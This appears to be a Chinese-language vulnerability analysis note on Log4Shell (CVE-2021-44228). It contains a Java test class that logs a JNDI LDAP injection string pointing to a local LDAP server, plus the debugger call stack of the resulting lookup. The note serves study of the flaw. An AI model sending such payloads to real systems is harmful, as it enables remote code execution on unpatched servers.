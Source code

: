 ### 测试代码

```plain
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class CVE202144228 {
    public static final Logger logger = LogManager.getLogger(CVE202144228.class);
    public static void main(String[] args) {
        String message = "${jndi:ldap://127.0.0.1:1389/0xrsto}";
        logger.error("error info:{}",message);
    }
}
```

### 函数调用栈

根据JNDI的前置知识，在InitialContext类的lookup方法下断点或者NamingManager类的getObjectFactoryFromReference方法下断点

```plain
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2034, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1899, AbstractLogger (org.apache.logging.log4j.spi)
error:866, AbstractLogger (org.apache.logging.log4j.spi)
main:10, CVE202144228 (org.example)
```
